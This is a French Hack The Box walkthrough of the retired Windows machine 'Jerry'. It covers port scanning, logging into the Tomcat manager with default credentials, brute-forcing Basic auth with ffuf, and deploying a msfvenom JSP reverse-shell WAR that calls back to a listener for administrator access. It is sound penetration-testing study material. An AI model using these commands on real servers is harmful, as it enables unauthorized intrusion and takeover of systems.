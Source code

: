 Nouvelle box windows (retirée) easy : Jerry.

COmme d'habitude, nous commençons par scanner les ports les plus courant 
```sh
sudo nmap -sV -sC -p- -oA jerry 10.10.10.95
<SNIP>
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
<SNIP>
```

On remarque qu'il n'y a qu'un seul port d'ouvert, le 8080, un port HTTP pour le service Apache Tomcat, un webserver.

Si on va sur la page http:// 10.10.10.95:8080, on a simplement la page de base de tomcat.


![j1](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/Jerry1.PNG)

En essayant d'aller sur l'onglet, Manager App, on nous demande un mot de passe.

On essaye n'importe quoi et on se retrouve avec une erreur 401.


Cette erreur 401 nous retourne une page, et nous dit que pour accéder à la page, on peut mettre tel tomcat et s3cret, qui sotn des mots de passe par défaut :

![j1](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/jerry2.PNG)

On essaye donc "tomcat" et "s3cret". Et on tombe sur la page d'administration (!!).

![j3](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/jerry3.PNG)

On peut tenter également d'arriver différemment sur cette page, car lorsqu'on ouvre les échanges réseaux de la fenêtre dév de firefox par exemple, on voit que les crédits d'autorisation sont encodés en base64 :

![j4](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/jerry4.PNG)

```sh
echo dG9tY2F0OnMzY3JldA== | base64 -d
tomcat:s3cret
```

On peut donc tenter de brute-force ce champ, avec une liste de user:mdp, grâce à la fabuleuse Seclist :

```
ffuf -w ~/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt:FUZZ -u http://10.10.10.95:8080/manager/html -H 'Authorization: Basic FUZZ' | grep 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.95:8080/manager/html
 :: Wordlist         : FUZZ: /home/kali/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt
 :: Header           : Authorization: Basic FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

dG9tY2F0OnMzY3JldA==    [Status: 200, Size: 17035, Words: 1119, Lines: 380, Duration: 219ms]
dG9tY2F0OnMzY3JldA==    [Status: 200, Size: 17035, Words: 1119, Lines: 380, Duration: 238ms]
:: Progress: [79/79] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/HTB/Jerry]
└─$ echo dG9tY2F0OnMzY3JldA== | base64 -d
tomcat:s3cret                                                                      
```

On voit qu'on peut upload des fichiers war. Grâce au générateur de payload de metasploit, msfvenom, on peut générer un shell inversé :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.2 LPORT=4242 -f war -o payload.war
```


Ensuite on prépare un netcat afin d'écouter les connexions entrantes sur le port 4242 :

```sh
nc -lnvp 4242
```

On upload le fichier, on clique dessus :

![j5](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/jerry5.PNG)


Et on accès à la machine windows via nc. En cherchant, on trouve un dossier des flags sur le Bureau de l'administrateur (on est déjà admin) :

```powershell
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
<SNIP>

root.txt
<SNIP>
C:\Users\Administrator\Desktop\flags>
```

## Conclusion :

Je ne connais pas bien encore les serveurs windows et la façon de les pénétrer, mais cette box, à la fois similaire dans l'approche "web" qu'une machine linux, et extrêmement simple sur le côté "windows", permet de doucement commencer à comprendre un peu mieux comment ça fonctionne.

D'autres approches plus complexes, comme celle Ippsec sur youtube (et qui ne sera pas détaillée ici), sont aussi de très bons moyens de découvrir toutes les faces d'un même challenge et d'améliorer ses process d'approche et d'exécution.

C'est une nécessité, tant windows est courant, que ce soit pour le côté administration ou, comme on vient de le voir, les tests de pénétration.



